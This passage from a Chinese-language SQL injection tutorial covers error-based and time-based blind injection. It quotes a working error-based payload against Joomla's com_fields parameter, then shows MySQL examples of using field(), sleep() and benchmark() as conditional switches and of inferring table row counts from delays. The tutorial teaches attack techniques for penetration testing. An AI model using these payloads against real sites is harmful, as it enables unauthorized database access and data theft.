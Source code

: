 后来我发现这个确实是有[案例](https://www.exploit-db.com/exploits/42033)的，但是和我这个用法没哈关系，可能只是我见识比较短浅，这是当时的payload：

```
Payload: option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
```

### **4.field() 的分流特性**

```
FIELD(str, str1, str2, str3, ……)
```

该函数返回的是 str 在面这些字符串的位置的索引，如果找不到返回 0 ，但我发现这个函数同样可以作为开关来使用，如下：

```
mysql&gt; select * from bsqli where id = 1 and field(1&gt;1,sleep(1));
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
+----+--------+----------+
1 row in set (2.00 sec)

mysql&gt; select * from bsqli where id = 1 and field(1=1,sleep(1));
Empty set (1.00 sec)

```

> <p>但是这其实给了我们一种新的思路：有时候时间延迟的长短可以作为我们判断的依据，并不一定是有延迟和没延迟(当然这只是我原来没注意，不代表看这篇文章的师傅们不知道<br>
orz)</p>

另外就是如果有些函数返回的是 NULL 并不代表这个函数不能作为开关函数或者分流函数使用，因为我们还有一个函数叫做 isnull() ，可以将 null 转化成真或者假。

当然方法肯定不止这两个，这里仅仅是讲解原理的简单举例。



## 0X02 基于时间的盲注

基于时间的盲注的一般思路是延迟注入，说白了就是将判断条件结合延迟函数注入进入，然后根据语句执行时间的长短来确定判断语句返回的 TRUE 还是 FALSE，从而去猜解一些未知的字段(整个猜解过程其实就是一种 fuzz)。

### **1. MYSQL 的 sleep 和 benchmark**

**我们常用的方法就是 sleep() 和 benchmark(),如下图所示**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A811_.png)

上面两个语句适用来判断是否存在 sql 注入的(**注意 sleep 是存在一个满足条件的行就会延迟指定的时间，比如sleep(5)，但是实际上查找到两个满足条件的行，那么就会延迟10s,这其实是一个非常重要的信息，在真实的渗透测试过程中，我们有时候不清楚整个表的情况的话，可以用这样的方式进行刺探，比如设置成 sleep(0.001) 看最后多少秒有结果，推断表的行数**)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A812.png)
